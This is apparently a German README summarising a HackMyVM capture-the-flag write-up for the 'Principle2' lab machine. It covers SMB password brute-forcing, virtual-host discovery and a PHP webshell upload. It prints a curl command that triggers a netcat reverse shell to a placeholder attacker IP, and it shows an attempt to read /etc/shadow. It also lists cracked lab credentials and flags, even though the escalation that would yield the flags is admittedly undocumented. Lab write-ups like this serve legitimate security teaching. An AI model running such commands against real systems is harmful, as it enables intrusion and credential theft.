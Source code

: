 # Principle2 - HackMyVM (Medium)

![Principle2.png](Principle2.png)

## Übersicht

*   **VM:** Principle2
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Principle2)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 18. Dezember 2023
*   **Original-Writeup:** https://alientec1908.github.io/Principle2_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, die User- und Root-Flags der Maschine "Principle2" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines virtuellen Hosts (`thetruthoftalos.hmv`) nach Brute-Forcing von SMB-Credentials für den Benutzer `talos`. Auf diesem VHost wurde eine Webanwendung gefunden, die eine (nicht explizit gezeigte) Schwachstelle aufwies, welche das Hochladen und Ausführen einer PHP-Webshell (`ben.php`) im `/uploads/`-Verzeichnis ermöglichte. Dies führte zu initialem Zugriff als `www-data`. Die weitere Eskalation zu Root wurde im Bericht nicht vollständig dokumentiert, aber es wurden vielversprechende Vektoren identifiziert: eine SUID-Root-Binary (`/usr/bin/updater`, Gruppe `melville`) und eine `sudo`-Regel, die `www-data` erlaubte, `/usr/bin/cat` als Benutzer `talos` auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `smbclient`
*   `crackmapexec`
*   `nbtscan` (impliziert für SMB-Enumeration)
*   `wfuzz`
*   `cat`
*   `xargs`
*   `tr`
*   `msfconsole` (impliziert für die Suche, aber kein Exploit ausgeführt)
*   `smbmap` (impliziert für SMB-Enumeration)
*   `showmount` (impliziert für NFS-Enumeration)
*   `mount` (impliziert für NFS-Enumeration)
*   `ngrep` (impliziert für Netzwerkanalyse)
*   `wget`
*   `exiftool` (impliziert für Bildanalyse)
*   `strings` (impliziert für Bildanalyse)
*   `steghide` (impliziert für Bildanalyse)
*   `stegsnow` (impliziert für Bildanalyse)
*   `binwalk` (impliziert für Bildanalyse)
*   `curl`
*   `nc` (netcat)
*   `find`
*   `ss`
*   `sudo`
*   Standard Linux-Befehle (`ls`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Principle2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration (Web, SMB, NFS, VHost):**
    *   IP-Adresse des Ziels (192.168.2.131) mit `arp-scan` identifiziert. Hostname `principle2.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 80 (HTTP, Nginx 1.22.1 mit Apache-Default-Titel), 111 (RPCBind), 139/445 (SMB, Samba 4.6.2) und 2049 (NFS).
    *   `gobuster` auf `http://principle2.hmv` fand keine signifikanten Pfade außer `index.html`.
    *   SMB-Enumeration (z.B. mit `enum4linux-ng` oder `crackmapexec`) fand die Shares `public` und `hermanubis` sowie die Benutzer `nobody`, `hermanubis`, `talos`, `byron`, `melville`.
    *   `crackmapexec smb` knackte das Passwort für den Benutzer `talos` zu `s13!34g$3FVA5e@ed`.
    *   `wfuzz` VHost-Enumeration fand den virtuellen Host `thetruthoftalos.hmv`. Dieser wurde in `/etc/hosts` eingetragen.
    *   Die Startseite von `http://thetruthoftalos.hmv` zeigte "NOTHING". `gobuster` auf diesem VHost fand `index.php` und das Verzeichnis `/uploads/`.
    *   Die Datei `index.php` auf `thetruthoftalos.hmv` enthielt ein Formular, das einen `filename`-Parameter entgegennahm und auf eine mögliche Command Injection oder LFI hindeutete. Im `/uploads`-Verzeichnis wurden thematisch passende `.txt`-Dateien gefunden (olympische Götter).
    *   Steganographie-Versuche auf eine `newjerusalem.jpg` (Herkunft unklar) blieben erfolglos.

2.  **Initial Access (Web RCE als `www-data`):**
    *   Eine (nicht im Detail gezeigte, aber durch den `curl`-Befehl implizierte) Schwachstelle, vermutlich in `index.php` auf `thetruthoftalos.hmv` oder durch direkten Upload, ermöglichte das Platzieren einer PHP-Webshell (`ben.php`) im Verzeichnis `/uploads/`.
    *   Durch Aufrufen von `http://thetruthoftalos.hmv/uploads/ben.php?cmd=id` wurde RCE als `www-data` bestätigt.
    *   Mittels `curl "http://thetruthoftalos.hmv/uploads/ben.php?cmd=nc%20-e%20/bin/bash%20ANGRIFFS_IP%204444"` wurde eine Reverse Shell zu einem Netcat-Listener als `www-data` aufgebaut.

3.  **Privilege Escalation (Ansätze):**
    *   Als `www-data` wurde bei der SUID-Suche die Datei `/usr/bin/updater` (SUID Root, Gruppe `melville`, Ausführrechte `-rwsr-x---`) als potenzieller Vektor identifiziert.
    *   `sudo -l` als `www-data` zeigte, dass der Befehl `/usr/bin/cat` als Benutzer `talos` ohne Passwort ausgeführt werden durfte: `(talos) NOPASSWD: /usr/bin/cat`.
    *   Versuche, `/etc/shadow` mit `sudo -u talos cat /etc/shadow` zu lesen, scheiterten an den Rechten von `talos`.
    *   *Der Bericht endet hier, bevor eine erfolgreiche Eskalation zu `talos` oder `root` unter Ausnutzung dieser Vektoren gezeigt wird.*

4.  **Flags (wie im Bericht angegeben, aber der Weg dorthin ist nicht vollständig dokumentiert):**
    *   User-Flag: `c7d0a8de1e03b25a6f7ed2d91b94dad6`
    *   Root-Flag: `5C42D6BB0EE9CE4CB7E7349652C45C4A`

## Wichtige Schwachstellen und Konzepte

*   **VHost Enumeration:** Auffinden der Subdomain `thetruthoftalos.hmv`.
*   **Schwache SMB-Credentials:** Das Passwort für den Benutzer `talos` konnte mittels Brute-Force geknackt werden.
*   **Webshell Upload / RCE:** Eine (nicht detailliert beschriebene) Schwachstelle erlaubte das Hochladen und Ausführen einer PHP-Webshell, was zu Initial Access führte.
*   **SUID Binary:** Die Datei `/usr/bin/updater` (SUID Root, Gruppe `melville`) wurde als potenzieller Eskalationsvektor identifiziert.
*   **Unsichere `sudo`-Regel:** `www-data` durfte `cat` als `talos` ausführen, was das Lesen von Dateien im Kontext von `talos` ermöglicht und einen potenziellen Weg zur weiteren Eskalation darstellt.
*   **Widersprüchliche Server-Informationen:** Der Webserver auf Port 80 meldete sich als Nginx, zeigte aber einen Apache-Default-Seitentitel.

## Flags

*   **User Flag:** `c7d0a8de1e03b25a6f7ed2d91b94dad6`
*   **Root Flag:** `5C42D6BB0EE9CE4CB7E7349652C45C4A`

## Tags

`HackMyVM`, `Principle2`, `Medium`, `VHost Enumeration`, `SMB Brute-Force`, `Webshell Upload`, `RCE`, `SUID Binary`, `sudo Exploit`, `Linux`, `Web`, `Privilege Escalation`, `Nginx`, `Samba`, `NFS`, `Apache`
